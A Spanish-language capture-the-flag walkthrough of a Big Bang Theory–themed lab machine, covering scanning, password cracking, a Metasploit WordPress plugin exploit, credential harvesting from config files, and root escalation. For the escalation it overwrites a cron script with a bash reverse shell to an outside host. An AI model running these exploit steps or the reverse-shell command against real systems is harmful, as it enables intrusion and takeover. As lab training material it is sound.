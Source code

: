 # Maquina Fun Whit Flags:

Primeramente descubrimos la ip de la maquina mediante un escaneo a la subred:

```bash
·-$ nmap 10.32.2.0/24
```

Encontramos la direccion: 10.32.2.46

·-$ IP=10.32.2.46

le hacemos un escaneo de puertos con:

·-$ sudo nmap -sS -vvv -p- -n -Pn –open –min-rate 5000 $IP -oG nmap-report

y nos revela algunos puertos abiertos [21,22,80,1337] a los cuales le hacemos un escaneo un poco mas profundo en busca de posibles vulnerabilidades:

el mismo escaneo también nos devuelve la primera flag:

· FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}

También podemos obersvar el ftp corriendo en el puerto 21 con anonymous permitido y un par de cosas en él, así que empezaremos por aquí.





Vemos varias cosas, como un posible usuario y contraseña para penny (penny96, pennyisafreeloader), probamos por ssh pero no funciona asi que seguimos mirando.

En el directorio howard hay un comprimido .zip con contraseña, probamos fuerza bruta con fcrackzip y el diccionario rockyou.txt:


Encontramos la password: astronaut. El .zip nos devuelve una foto, que tras analizarla nos damos cuenta que contiene algo en ella, pero tambien necesitamos contraseña, por lo que probaremos fuerza bruta nuevamente, esta vez con stegcracker y nuevamente rockyou.txt:


Tenemos la flag de howard!:

· FLAG-howard{b3d1baf22e07874bf744ad7947519bf4}

Ahora echemos un vistazo a la web.

Primeramente encontramos un robots.txt que no nos lleva a nada serio, asi que hacemos fuzzing de directorios con gobuster para listar posibles directorios y archivos:


Tenemos varias vias por donde buscar, pero antes haremos fuzzing tambien en los nuevos directorios (/music, /private y /phpmyadmin) donde encontramos varias cosas, como un wordpress con un panel de login (wp-login.php) dentro de /music/wordpress/:





Luego de intentar varias cosas como injecciones sql o usuarios por defecto, le hacemos un escaneo con wpscan (Wordpress Security Scan) y encontramos un plugin vulnerable que constituye una posible via de acceso y el cual intentaremos explotar con metasploit (plugin: reflex-gallery)

·-$ msfconsole
msf> search reflex
msf> use 0
msf> set RHOST 10.32.2.46
msf> set TARGETURI /music/wordpress
msf> run

Y estamos dentro!
Ahora, husmeando en varios archivos, principalmente en el directorio de wordpress, encontramos en wp-config.php credenciales de la base de datos, como por ejemplo:


// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'footprintsonthemoon' );

/** MySQL database username */
define( 'DB_USER', 'footprintsonthemoon' );

/** MySQL database password */
define( 'DB_PASSWORD', 'footprintsonthemoon1337' );

Primeramente encontramos algunos usuarios de wordpress, nada relevante, seguimos buscando tabla por tabla, y en wp-posts,  encontramos el contenido de varios de estos, donde el último contenía lo siguiente:

La flag de Raj(raz):

· FLAG-raz{40d17a74e28a62eac2df19e206f0987c}

Una vez terminada la enumeración de la base de datos, seguimos en el servidor y encontramos otras credenciales, ahora en /var/www/html/private/db_config.php:

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
$DBUSER = 'bigpharmacorp';
$DBPASS = 'weareevil';

Una vez en la base de datos tenemos lo siguiente:



· FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}

Siguiendo con las búsquedas, encontramos en el directorio amy, 2 archivos, “notes.txt” y y un binario ejecutable “secretdiary”. La nota tenia el siguiente texto:

This is my secret diary.
The safest way to keep my secrets is inside a compiled executable program.
As soon as I get popular now, that I have friends, I will start adding my secrets here.
I have used a really strong password that it cant be bruteforced.
Seriously it is 18 digit, alphanumeric, uppercase/lowercase with symbols.
And since my program is already compiled, no one can read the source code in order to view the password!

Lo primero que se me ocurre es leer con cat el binario en busca de algo raro, y tenemos lo siguiente:
asd
Tenemos la flag de amy y una posible password, con la cual intente entrar por ssh pero no funcionó, así que seguimos buscando e intentando escalar privilegios.

· FLAG-amy{60263777358690b90e8dbe8fea6943c9}


En el directorio leonard encontramos un script .sh, sobre el cual teniamos todos los permisos “thermostat_set_temp.sh”, al parecer es un cron que ejecuta root:
________________________________________________________________________________
root  2407  0.0  0.0   5436   724 ?   S  14:43   0:00 /bin/bash /home/leonard/thermostat_set_temp.sh
------------------------------------------------------------------------------------------------------------------------

Vamos a insertar una reverse shell en bash y esperar con netcat por el puerto 4444:

Lado de la máquina víctima:
·-$ echo "bash -i >& /dev/tcp/10.8.136.135/4444 0>&1" > thermostat_set_temp.sh

Máquina atacante:
·-$ nc -lnvp 4444

y al cabo de unos 8-10 segundos, somos root:

root@tbbt:/home/leonard#

en ~/ encontramos la flag de leonard:

FLAG-leonard{17fc95224b65286941c54747704acd3e}

y en /home/penny, con ls -a, encontramos el archivo “.FLAG.penny.txt”, con una cadena en aparentemente base64, la intentamos descifrar con:

root@tbbt:/home/leonard# cat .FLAG.penny.txt | base64 -d

y obtenemos la flag de penny:

· FLAG-penny{dace52bdb2a0b3f899dfb3423a992b25}



